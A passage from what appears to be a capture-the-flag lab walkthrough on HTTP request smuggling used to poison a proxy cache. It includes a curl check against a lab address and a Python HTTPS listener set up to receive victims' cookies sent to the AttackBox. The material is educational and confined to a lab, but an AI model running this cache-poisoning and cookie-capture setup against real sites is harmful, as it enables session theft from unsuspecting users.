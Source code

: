 If we now send an additional request for `/static/text.js`, we will get the queued response with the contents of `myjs.js`. Beyond the fact that we are receiving the wrong content for our new request, the cache will wrongly associate the contents of the queued response with the new URL we are requesting. Any other user that requests `/static/text.js` afterwards, will receive the contents of `myjs.js` served from the poisoned cached instead. This will last until the cached content expires, which is just 30 seconds for our lab.

![Poisoning the cache by desyncing the backend connection](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f2cc2a0be416384bbba3ce79d1dd37bb.svg)

If your attack worked, you should now be able to use curl to request `/static/text.js`, and should get the contents of our payload instead. The following command would allow you to check if the attack worked:

AttackBox

```shell-session
user@attackbox$ curl -kv https://10.10.21.78:8100/static/text.js
```

**Note:** Don't use your actual browser (Firefox, Chrome, Safari, etc.) to check if the attack worked. Modern browsers also have local caching, which may alter what you get from a URL, as it may be taken directly from your local cache instead of being requested to the proxy/web server.

Receiving the Flag

At this point, if the victim user navigates to `/`, their cookies will be sent to our AttackBox on port 8002 via https. We need to set up a simple web server that implements https to be able to read the received cookies. There are many ways to set up such a server, we will use python to do so. Before running the https web server we will need to create an SSL certificate and key with the following command:

AttackBox

```shell-session
user@attackbox$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/C=XX/ST=StateName/L=CityName/O=CompanyName/OU=CompanySectionName/CN=CommonNameOrHostname"
```

Next, we'll create a file named `https.py` with the code responsible of running the https web server. The code is straightforward and let's you specify the port to use, which is `8002` in our case. The code also points to the SSL certificate and we previously generated. The code expects both of those files to be in the same directory as the python script:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler 
import ssl
httpd = HTTPServer(('0.0.0.0', 8002), BaseHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(
    httpd.socket,
    keyfile="key.pem",
    certfile='cert.pem',
    server_side=True)
httpd.serve_forever()
```

Once our script is ready, we can run it with the following command. You won't get any output initially, but as soon as the victim navigates to your webserver, logs will start to appear:
